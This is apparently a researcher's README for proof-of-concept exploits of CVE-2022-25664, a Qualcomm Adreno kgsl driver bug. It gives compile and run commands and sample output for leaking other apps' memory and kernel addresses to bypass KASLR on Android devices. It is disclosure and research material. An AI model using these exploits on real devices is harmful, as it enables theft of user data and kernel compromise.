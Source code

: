 ## CVE-2022-25664

The write up can be found [here](https://github.blog/2023-02-23-the-code-that-wasnt-there-reading-memory-on-an-android-device-by-accident). This is a bug in the Qualcomm kgsl driver that I reported in December 2021. The bug can be used to leak information in other user apps, as well as in the kernel from an untrusted app.

The directory `adreno_user` contains a proof-of-concept for leaking memory from other applications. It'll repeatedly trigger the bug and read the stale information contained in memory pages. There is no telling or control over what information is being leaked. To test this, compile with the following command:

```
aarch64-linux-android30-clang -O2 adreno_user.c -o adreno_user
```

and then push `adreno_user` to the device and run it. It should print out non zero memory content:

```
flame:/ $ /data/local/tmp/adreno_user
hexdump(0x50000000, 0x190)
00000000  0d 00 00 00 00 00 00 00 22 55 00 00 00 00 00 00  |........"U......|
00000010  fb 84 67 b5 73 00 00 b4 e0 84 67 b5 73 00 00 b4  |..g.s.....g.s...|
00000020  00 00 00 00 00 00 00 00 ff ff ff ff 00 00 00 00  |................|
00000030  b0 01 00 00 00 00 00 00 00 00 00 00 00 00 00 00  |................|
00000040  ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff  |................|
00000050  cb e9 67 e5 73 00 00 b4 00 00 00 00 00 00 00 00  |..g.s...........|
00000060  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  |................|
00000070  90 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  |................|
00000080  04 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  |................|
00000090  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  |................|
000000a0  fb 84 67 b5 73 00 00 b4 e0 84 67 b5 73 00 00 b4  |..g.s.....g.s...|
.......
```

The directory `adreno_kernel` contains a proof-of-concept for leaking kernel information for KASLR bypass. It'll repeatedly trigger the bug and tries to leak kernel addresses. Depending on whether the device is running kernel branch 4.x or 5.x, the Macro `KERNEL_BRANCH` in `adreno_kernel.c` should be set to either `4` or `5`.

To test, compile with 

```
aarch64-linux-android30-clang adreno_kernel.c adreno_cmd.c kgsl_utils.c -O3 -o  adreno_kernel
```

and then run it on the device. If successful, it should print out the kernel addresses of some objects and functions:

```
flame:/ $ /data/local/tmp/adreno_kernel
found dma fence object:
kgsl_syncsource_fence_ops address: ffffff9daaea8b48
object address: fffffffe116100a0
syncsource address: fffffffe0b244480
```

It has been tested on a number of devices. The time it takes (depends on the success rate of a single leak) varies across devices. It is relatively quick Pixel 4, but takes longer on the Samsung Z flip 3.
